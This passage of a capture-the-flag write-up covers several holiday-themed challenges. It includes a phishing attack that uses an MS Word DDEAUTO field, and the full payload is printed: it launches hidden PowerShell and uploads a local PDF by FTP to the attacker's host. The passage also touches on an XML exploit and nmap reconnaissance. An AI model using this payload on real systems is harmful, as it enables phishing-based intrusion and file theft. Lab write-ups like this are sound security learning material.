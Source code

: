                                                                                   <p class="MsoNormal">When the XML was loaded to the EaaS application, it resulted<br />in an XML error reported in my browser window. However, when looking at my netcat capture, I saw "GET / http://eaas.northpolechristmastown.com/xMk7H1NypzAqYoKw/greatbook6.pdf" was posted.</p>
                                                                                  <p class="MsoNormal">Once the URL to greatbook6.pdf, it was a simple matter to enter the URL in my browser and obtain the page.</p>
                                                                                  <p> </p>
                                                                                  </div>
                                                                                  <h3><strong>ELF-MACHINE INTERFACE / EMI</strong></h3>
                                                                                  <div class="WordSection1">
                                                                                  <p class="MsoNormal">In order to exploit the SCADA system, the challenge is to perform a phishing attack for a naïve user to open and expose, inadvertently, data on his file system.</p>
                                                                                  <p class="MsoNormal">I determined from the Elf Webmail System that Mr. Alabaster Snowball is very interested in obtaining the coveted “Gingerbread Cookie Recipe” of years past. With that knowledge, I expect him to download and run almost anything to get access to it.</p>
                                                                                  <p class="MsoNormal">For this attack, I chose to exploit a DDE “feature” (as Microsoft originally called it) within MS Word to launch a PowerShell command line when opened (and Mr. Snowball clicked ‘Yes’ to the dialog boxes).</p>
                                                                                  <p class="MsoNormal">After reviewing the numerous notes regarding the challenge, I spent several hours attempting to execute netcat for Windows via PowerShell.</p>
                                                                                  <p class="MsoNormal">All of those attempts were unsuccessful.</p>
                                                                                  <p class="MsoNormal">My next foray involved several more hours learning the basics of PowerShell. What I learned was that there is a relatively straight forward FTP command line available to me. Given that I knew I wanted to steal C:\GreatBookPage7.pdf, I crated my DDEAUTO exploit as such:</p>
                                                                                  <pre class="MsoFooter" style="margin-left: .5in;"><span style="font-size: 12.0pt; mso-fareast-language: ZH-CN;">{ DDEAUTO c:\\Windows\\System32\\cmd.exe </span>
                                                                                  <span style="font-size: 12.0pt; mso-fareast-language: ZH-CN;">"/k powershell.exe -NoP -sta -NonI -W Hidden</span>
                                                                                  <span style="font-size: 12.0pt; mso-fareast-language: ZH-CN;">$e=(New-Object System.Net.WebClient).UploadFile('ftp://anonymous:me@&lt;MY-IP&gt;:55779/GreatBookPage7.pdf', 'STOR', 'C:\GreatBookPage7.pdf');</span>
                                                                                  <span style="font-size: 12.0pt; mso-fareast-language: ZH-CN;">powershell -e $e</span><span style="font-size: 12.0pt;">"
                                                                                  }</span></pre>
                                                                                  <p class="MsoFooter" style="margin-left: .5in;"><span style="font-size: 18.0pt;"> </span></p>
                                                                                  <p class="MsoNormal">With the DDE exploit crafted, I tested sending the phising e-mail to Mr. Alabaster Snowball via EWA. [<i>For what its worth, Mr. Snowball isn’t too bright. I sent him an e-mail from his own e-mail account and yet he still opened up the attachment and clicked on the appropriate dialog boxes.</i>] My test consisted of me initially setting up a basic netcat listener on a host to see if there was a connection.</p>
                                                                                  <p class="MsoNormal">And there was!</p>
                                                                                  <p class="MsoNormal">After the successful test, I setup a basic anonymous FTP server (listening on a non-standard port) and re-executed my attack. My reward was having the GreatBookPage7.pdf file uploaded to my temporary FTP server.</p>
                                                                                  <h3> </h3>
                                                                                  <h3><strong>NORTH POLE DATABASE / EDB</strong></h3>
                                                                                  <p class="MsoNormal">This challenge was probably my most favorite. Breaking into the EDB system allowed me to learn and practice several attacks that I understood in theory but had never had the opportunity to implement.</p>
                                                                                  <p class="MsoNormal">I began my attacks by trying to determine as much information as possible about the target – <i>10.142.0.6</i>. My nmap scan let me know that it was listening for SSH, HTTP (port 80 &amp; 8080) and LDAP connections.</p>
